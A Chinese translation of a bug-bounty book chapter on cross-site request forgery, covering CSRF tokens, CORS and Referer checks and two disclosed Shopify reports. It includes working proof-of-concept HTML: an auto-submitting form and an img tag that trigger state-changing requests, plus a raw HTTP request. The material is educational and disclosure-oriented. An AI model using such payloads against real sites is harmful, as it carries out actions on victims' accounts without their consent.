 ## **八、跨站請求偽造**

>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0


## **描述**

跨站請求偽造，或CSRF攻擊，在惡意網站，電子郵件，即使消息，應用以及其它，使用戶的Web瀏覽器執行其它站點上的一些操作，並且用戶已經授權或登錄了該站點時發生。通常會在用戶不知道操作已經執行的情況下發生。

CSRF 攻擊的影響取決於收到操作的站點。這裡是一個例子：
1. Bob 登錄了它的銀行賬戶，執行了一些操作，但是沒有登出。
2. Bob 檢查了它的郵箱，並點擊了一個陌生站點的鏈接。
3. 陌生站點向 Bob 銀行站點發送請求來進行轉賬，並傳遞第一步中，保存 Bob 銀行會話的 Cookie 信息。
Bob 的銀行站點收到了來自陌生（惡意）站點的請求，沒有使用 CSRF Token 的情況下處理了轉賬。

更有意思的是這個想法，也就是惡意網站的鏈接可以包含有效的 HTML，`<imgsrc="www.malicious_site.com">`，並且並不需要 Bob 點擊鏈接。如果 Bob 的設備（例如瀏覽器）渲染了這個圖片，它會向`malicious_site.com`發送請求，來完成 CSRF 攻擊。
<p>
現在，知道了 CSRF 的危險之後，它們可以以多種方式防範。最流行的方式大概是 CSRF Token，它必須隨著潛在的數據修改氣你去一起提交（例如 POST 請求）。這裡，Web 應用（例如 Bob 的銀行）會生成一個兩部分的 Token，一個 Bob 會收到，另一個由應用保管。
<p>
當 Bob 試圖提交轉賬請求時，它就需要提交 Token，銀行會驗證它這一邊的 Token。
<p>
現在，對於 CSRF 和 CSRF Token 來說，跨域資源共享似乎越來越普遍了。或者只是我注意到是這樣。
本質上，CORS 限制了資源，包括 JSON 響應，被外域訪問。換句話說，當 CORS 用於保護站點時，你就不能編寫 JavaScript 來調用目標應用，讀取響應或者進行另一個調用，除非目標站點允許。
<p>

似乎這非常令人混亂，使用 JavaScript，嘗試調用`HackerOne.com/activity.json`，讀取響應並進行二次調用。你也會在下面的例子 #3 看到它的重要性，以及潛在的原理。

<p>

最後，重要的是要記住（感謝 Jobert Abma 補充），並不是每個不帶有 CSRF Token 的請求都帶有 CSRF 問題。一些站點可能執行額外的檢查，例如比較 Referer 協議頭（雖然可能出錯，並且有一些繞過它的案例）。它是一個字段，標識了鏈接到被請求資源的頁面地址。換句話說，如果 POST 調用中的 Referer 並不來源於收到 HTTP 請求的相同站點，站點可能不允許該調用，因此能夠完成和驗證 CSRF Token 的相同操作。此外，不是每個站點在創建或者定義 Token 時都使用csrf術語。例如，在 Badoo 它使用rt參數，我們下面會討論。

>連結
>
>[查看OWASP 測試指南。](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)


---

## **示例**

## **1. Shopify 導出已安裝的用戶**

```
難度：低

URL：https://app.shopify.com/services/partners/api_clients/XXXX/export_installed_users
報告鏈接：https://hackerone.com/reports/96470
報告日期：2015.10.29
獎金：$500
描述：
```
Shopify 的 API 提供了一個終端，用於導出已安裝用戶的列表，通過上面給出的 URL。在站點能夠調用該終端，並且讀取信息的地方存在漏洞，因為 Shopify 在該調用中並沒有包含任何 CSRF Token 驗證。所以，下面的 HTML 代碼可以用於代表任何未知受害者提交表單。

```html
<html>
    <head><title>csrf</title></head>
    <body onLoad="document.forms[0].submit()">
        <form action="https://app.shopify.com/services/partners/api_clients/1105664/\ export_installed_users" method="GET">
        </form>
    </body>
</html>
```
這裡，通過僅僅瀏覽站點，JavaScript 就會提交表單，它實際上包含 Shopify API 的 GET 請求，使用受害者的瀏覽器，並提供 Shopify 的 Cookie。

>重要結論
>
>擴展你的攻擊領域，並從站點轉向它的 API 終端。 API 提供了極大的漏洞可能性，所以最好牢記他，尤其是當你知道 API 
>可能開發完畢，或者在站點實際開發之後可用的時候。


---

## **2. Shopify Twitter 斷開連接**

```
難度：低

URL：https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect
報告鏈接：https://hackerone.com/reports/111216
報告日期：2016.1.17
獎金：$500
描述：
```
Shopify 提供了 Twitter 的繼承，來允許店主轉推它們的商品。與之相似，也提供了功能來斷開推特賬戶和被連接商店的鏈接。
<p>
斷開 Twitter 賬戶的 URL 寫在了上面。當進行調用時，Shopify 不驗證 CSRf Token，這可能會允許惡意人員代表受害者進行 GET 調用，因此斷開受害者的商店與 Twitter 的連接。
<p>
在提供這份報告的時候，WeSecureApp 提供了下面的漏洞請求示例 - 要注意下面的img標籤的使用，它對漏洞 URL 進行調用：

```
GET /auth/twitter/disconnect HTTP/1.1
Host: twitter-commerce.shopifyapps.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:43.0) Gecko/2010010\ 1 Firefox/43.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://twitter-commerce.shopifyapps.com/account
Cookie: _twitter-commerce_session=REDACTED
Connection: keep-alive
```
由於瀏覽器進行 GET 請求來獲取給定 URL 處的圖片，並且不驗證任何 CSRF Token ，用戶的商店現在已斷開連接：

```html
<html>
    <body>
        <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect">
    </body>
</html>
```

>重要結論
>
>這種情況下，這個漏洞可以使用代理服務器來發現，例如 Burp 或者 Firefox 的 Tamper Data，來觀察發送給 Shopify 
>的請求，並主要到這個請求使用 GET 方式來執行。由於這是個破壞性操作，而 GET 請求不應該修改任何服務器上的數據，這應該是一些需要關注的事情。